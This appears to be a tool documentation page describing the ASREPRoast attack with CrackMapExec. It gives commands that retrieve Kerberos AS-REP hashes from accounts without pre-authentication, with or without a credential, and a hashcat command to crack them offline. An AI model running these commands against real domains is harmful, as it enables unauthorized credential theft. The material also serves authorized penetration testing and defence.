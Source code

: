 ```yaml
---
description: >-
  Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos
  pre-authentication required
---
```


# ASREPRoast



{% hint style="success" %}
You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain
{% endhint %}

### Without authentication

> The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS\_REQ request to the KDC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

```
cme ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

Using a wordlist, you can find wordlists of username here

```
cme ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

{% hint style="info" %}
Set the password value to '' to perform the test without authentication&#x20;
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

### With authentication

If you have one valid credential on the domain, you can retrieve all the users and hashs where the  Kerberos pre-authentication is not required

```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

{% hint style="info" %}
Use option **kdcHost** when the domain name resolution fail&#x20;

```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

### Cracking with hashcat&#x20;

To crack hashes on the file output.txt with hashcat use the following options:

```
hashcat -a 0 -m 18200 output.txt wordlist
```
